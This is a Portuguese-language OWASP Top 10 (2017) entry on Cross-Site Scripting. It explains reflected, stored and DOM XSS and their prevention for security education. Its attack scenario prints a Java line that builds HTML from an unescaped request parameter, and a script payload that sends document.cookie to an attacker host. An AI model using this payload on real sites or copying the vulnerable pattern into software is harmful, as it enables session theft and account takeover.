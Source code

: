 # A7:2017 Cross-Site Scripting (XSS)

| Agentes de Ameaça/Vetores de ataque | Vulnerabilidade de Segurança | Impactos |
| -- | -- | -- |
| Nível de acesso : Abuso 3 | Prevalência 3 : Deteção 3 | Técnico 2 : Negócio |
| Ferramentas automáticas podem detetar e tirar partido dos 3 tipos de XSS. Existem ferramentas grátis capazes de explorar este problema. | XSS é o segundo maior risco no Top 10 da OWASP e cerca de dois terços das aplicações são vulneráveis a este tipo de ataque. Existem ferramentas automáticas capazes de encontrar problemas de XSS em tecnologías bastantes populares como PHP, J2EE / JSP e ASP.NET. | O impacto do XSS é moderado para Reflected and DOM XSS mas severo para Stored XSS, onde a execução de código remotamente permite ao atacante roubar credenciais, sessões ou até mesmo infectar a máquina da vítima com malware. |

## A Aplicação é Vulnerável?

Existem 3 tipos de XSS que normalmente atacam o browser dos utilizadores:

* **Reflected XSS**: A aplicação ou API incluem no seu HTML input inserido pelo utilizador, sendo que este não foi devidamente sanitizado. Um ataque bem sucedido pode permitir ao atacante executar qualquer tipo de código HTML e JavaScript no browser da vítima. Normalmente a vítima terá de aceder a uma página maliciosa para que seja infectada.
* **Stored XSS**: A aplicação ou API armazenam informação não sanitizada inserida pelo utilizador. Esta informação poderá depois ser mostrada numa página a outro utilizador ou administrador e ser utilizada para inserir algum tipo de código malicioso na página. Este tipo de XSS é considerado de risco alto ou crítico.
* **DOM XSS**: É um ataque onde o código maligno do atacante é inserido no DOM de uma página dinamicamente. Ao contrário do Reflected e Stored XSS em que o servidor é comprometido, o DOM XSS acontece apenas no lado do cliente.

Ataques de XSS incluem riscos tais como: roubo de sessão, roubo de contas, alteração do DOM, download de software malicioso, key logging e outros.

## Como Prevenir?

Para prevenir o XSS, é necessário identificar e tratar corretamente a informação controlada pelo utilizador. Para isso, podemos:

* Utilizar frameworks que sanitizem automaticamente e corretamente o input inserido pelo utilizador como é o caso de frameworks como Ruby on Rails e React JS. É preciso entender as limitações destas frameworks e tratar corretamente desses casos.
* Escapar corretamente informação desconhecida do pedido HTTP tendo em conta o contexto onde esta informação vai ser inserida no HTML (body, attribute, JavaScript, CSS ou URL) vai resolver os riscos de Reflected e Stored XSS. O documento [OWASP Cheat Sheet 'XSS Prevention'][1] inclui detalhes de como deve ser escapada a informação desconhecida.
* Aplicar o encoding correto quando se faz alguma modificação na página no lado do cliente previne o DOM XSS. Quando isto não é possível, podemos também utilizar algumas das técnicas referidas no documento OWASP Cheat Sheet 'XSS Prevention'.
* Adicionar regras de [Content Security Policy (CSP)][2] na aplicação é uma defesa muito boa contra XSS. É muito eficaz contra XSS se não existirem outro tipo de vulnerabilidades que possibilitem a inclusão de código malicioso através de ficheiros locais da aplicação.

## Exemplos de Cenários de Ataque

**Cenário #1**: A aplicação usa informação não confiável na construção do seu HTML, sem validação ou sanitização:

`(String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";`

O atacante altera o parâmetro "CC" no browser para:

`'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'`

Isto irá fazer com que a sessão da vítima seja enviada para a página do atacante. A partir daqui o atacante será capaz de se fazer passar pela vítima.

**Nota**: Os atacantes podem tirar partido do XSS para derrotar qualquer mecanismo de defesa automática contra [Cross-Site Request Forgery (CSRF)][3].

## Referências

### OWASP

* [OWASP Proactive Controls: Encode Data][4]
* [OWASP Proactive Controls: Validate Data][4]
* [OWASP Application Security Verification Standard: V5][5]
* [OWASP Testing Guide: Testing for Reflected XSS][6]
* [OWASP Testing Guide: Testing for Stored XSS][7]
* [OWASP Testing Guide: Testing for DOM XSS][8]
* [OWASP Cheat Sheet: XSS Prevention][1]
* [OWASP Cheat Sheet: DOM based XSS Prevention][9]
* [OWASP Cheat Sheet: XSS Filter Evasion][10]
* [OWASP Java Encoder Project][11]
### Externas

* [CWE-79: Improper neutralization of user supplied input][12]
* [PortSwigger: Client-side template injection][13]

[1]: https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet
[2]: https://developer.mozilla.org/pt-PT/docs/Web/HTTP/CSP
[3]: https://developer.mozilla.org/pt-PT/docs/Glossary/CSRF
[4]: https://www.owasp.org/index.php/OWASP_Proactive_Controls#tab=OWASP_Proactive_Controls_2016
[5]: https://www.owasp.org/index.php/Category:OWASP_Application_Security_Verification_Standard_Project
[6]: https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)
[7]: https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)
[8]: https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001)
[9]: https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet
[10]: https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet
[11]: https://www.owasp.org/index.php/OWASP_Java_Encoder_Project
[12]: https://cwe.mitre.org/data/definitions/79.html
[13]: https://portswigger.net/kb/issues/00200308_clientsidetemplateinjection
